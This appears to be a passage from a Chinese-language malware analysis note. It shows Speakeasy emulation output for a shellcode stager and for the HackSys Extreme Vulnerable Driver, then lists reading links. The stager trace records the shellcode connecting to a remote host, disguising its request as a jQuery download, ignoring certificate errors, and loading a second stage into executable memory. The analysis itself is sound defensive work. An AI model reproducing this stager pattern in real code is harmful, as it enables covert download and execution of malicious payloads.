0x1129: 'wininet.InternetConnectA(0x20, "192.168.14.128", 0x1bb, 0x0, 0x0, 0x3, 0x0, 0x0)' -> 0x24
0x1148: 'wininet.HttpOpenRequestA(0x24, 0x0, "/jquery-3.3.2.slim.min.js", 0x0, 0x0, 0x0, "INTERNET_FLAG_DONT_CACHE | INTERNET_FLAG_IGNORE_CERT_CN_INVALID | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID | INTERNET_FLAG_KEEP_CONNECTION | INTERNET_FLAG_NO_UI | INTERNET_FLAG_RELOAD | INTERNET_FLAG_SECURE", 0x0)' -> 0x28
0x1172: 'wininet.InternetSetOptionA(0x28, 0x1f, 0x1203ec0, 0x4)' -> 0x1
0x118c: 'wininet.HttpSendRequestA(0x28, "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\\nAccept-Language: en-US,en;q=0.5\r\\nReferer: http://code.jquery.com/\r\\nAccept-Encoding: gzip, deflate\r\\nUser-Agent: Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko\r\\n", 0xffffffffffffffff, 0x0, 0x11f9)' -> 0x1
0x134d: 'kernel32.VirtualAlloc(0x0, 0x400000, 0x1000, "PAGE_EXECUTE_READWRITE")' -> 0x450000
0x136b: 'wininet.InternetReadFile(0x28, 0x450000, 0x2000, 0x1203e40)' -> 0x1
0x136b: 'wininet.InternetReadFile(0x28, 0x451000, 0x2000, 0x1203e40)' -> 0x1
0x450fb0: Unhandled interrupt: intnum=0x3
0x450fb0: shellcode: Caught error: unhandled_interrupt
* Finished emulating
模拟驱动
root@1:/home/popo# speakeasy -t HEVD.sys
* exec: 27
0x14008a035: 'ntoskrnl.RtlInitUnicodeString(0x1200f68, "\\Device\\HackSysExtremeVulnerableDriver")' -> None
0x14008a046: 'ntoskrnl.RtlInitUnicodeString(0x1200f58, "\\DosDevices\\HackSysExtremeVulnerableDriver")' -> None
0x14008a071: 'ntoskrnl.IoCreateDevice(0x7eb870, 0x0, "\\Device\\HackSysExtremeVulnerableDriver", 0x22, 0x100, 0x0, 0x1200f98)' -> 0x0
0x14008a0ef: 'ntoskrnl.IoCreateSymbolicLink("\\DosDevices\\HackSysExtremeVulnerableDriver", "\\Device\\HackSysExtremeVulnerableDriver")' -> 0x0
0x14008a10d: 'ntoskrnl.DbgPrintEx(0x4d, 0x3, " \\n ## ## ######## ## ## ######## \\n ## ## ## ## ## ## ## \\n ## ## ## ## ## ## ## \\n ######### ###### ## ## ## ## \\n ## ## ## ## ## ## ## \\n ## ## ## ## ## ## ## \\n ## ## ######## ### ######## \\n HackSys Extreme Vulnerable Driver \\n Version: 3.00 \\n")' -> 0x19a
0x14008a122: 'ntoskrnl.DbgPrintEx(0x4d, 0x3, "[+] HackSys Extreme Vulnerable Driver Loaded\\n")' -> 0x2d
* exec: 0
0x140085070: 'ntoskrnl.IofCompleteRequest(0x7ebb20, 0x0)' -> None
* exec: 14
0x1400855f0: 'ntoskrnl.DbgPrintEx(0x4d, 0x3, "[-] Invalid IOCTL Code: 0x0\\n")' -> 0x1c
0x14008572e: 'ntoskrnl.IofCompleteRequest(0x7ebc90, 0x0)' -> None
* exec: 3
0x140085767: 'ntoskrnl.IofCompleteRequest(0x7ebe00, 0x0)' -> None
* exec: 4
0x140085767: 'ntoskrnl.IofCompleteRequest(0xbd4000, 0x0)' -> None
* exec: 2
0x140085070: 'ntoskrnl.IofCompleteRequest(0xbd4170, 0x0)' -> None
* exec: 18
0x140085767: 'ntoskrnl.IofCompleteRequest(0xbd42e0, 0x0)' -> None
* exec: 28
0x140085027: 'ntoskrnl.RtlInitUnicodeString(0x1200f98, "\\DosDevices\\HackSysExtremeVulnerableDriver")' -> None
0x140085032: 'ntoskrnl.IoDeleteSymbolicLink("\\DosDevices\\HackSysExtremeVulnerableDriver")' -> 0x0
0x14008503c: 'ntoskrnl.IoDeleteDevice(0x3fd000)' -> 0x0
0x140085051: 'ntoskrnl.DbgPrintEx(0x4d, 0x3, "[-] HackSys Extreme Vulnerable Driver Unloaded\\n")' -> 0x2f
* Finished emulating
书籍
https://alice.climent-pommeret.red/posts/a-syscall-journey-in-the-windows-kernel/
再看
https://www.x86matthew.com/view_post?id=create_svc_rpc
异形PE文件 https://secret.club/2023/06/05/spoof-pe-sections.html